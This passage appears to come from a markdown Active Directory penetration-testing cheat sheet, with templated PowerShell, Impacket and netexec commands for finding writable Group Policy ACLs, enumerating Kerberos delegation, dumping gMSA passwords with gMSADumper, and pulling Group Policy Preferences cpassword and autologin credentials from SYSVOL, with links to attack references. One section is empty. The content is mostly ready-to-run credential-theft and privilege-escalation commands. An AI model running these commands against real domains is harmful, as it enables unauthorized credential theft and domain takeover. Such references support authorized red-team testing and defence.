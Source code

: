 ```powershell
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn  | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'GenericAll|GenericWrite|WriteDacl|WriteOwner|WriteProperty')}
```

sources:
- [attack 0 to 0.9: Authorization](https://zer1t0.gitlab.io/posts/attacking_ad/#authorization)
- BloodHound Edges: [GenericAll](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall) / [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl) / [GenericWrite](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericwrite)


#### <a name='shoot-delegations'></a>shoot-delegations
```powershell
# POWERVIEW / KUD
Get-DomainComputer -Unconstrained | select -ExpandProperty name

# POWERVIEW / KCD
Get-DomainUser -TrustedToAuth

# IMPACKET / with password in the CLI
$zz = $zdom_fqdn + '/' + $ztarg_user_name + ':' + $ztarg_user_pass
.\findDelegation.py  $zz
# IMPACKET / with kerberos auth / password not in the CLI
$zz = $zdom_fqdn + '/' + $ztarg_user_user
.\findDelegation.py  $zz -k -no-pass
```

References :
- [thehacker.recipes/ad/movement/kerberos/delegations - KUD / KCD / RBCD](https://www.thehacker.recipes/ad/movement/kerberos/delegations)
- [https://attack.mitre.org/techniques/T1134/001/](https://attack.mitre.org/techniques/T1134/001/)

#### <a name='shoot-desc-users'></a>shoot-desc-users
```powershell
```

#### <a name='shoot-gmsa'></a>shoot-gmsa
```python
# Pass the Hash, specific LDAP server
python gMSADumper.py -u $ztarg_user_name -p $ztarg_user_pass -d $zdom_fqdn -l $zdom_dc_name

# Kerberos Authentication, specific LDAP server
python gMSADumper.py -k -d $zdom_fqdn -l $zdom_dc_name
```

#### <a name='shoot-gpp'></a>shoot-gpp
```sh
# find cpassword
findstr /S /I cpassword \\$zdom_fqdn\sysvol\$zdom_fqdn\policies\*.xml

# cme
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin

# impacket
Get-GPPPassword.py $zz
```
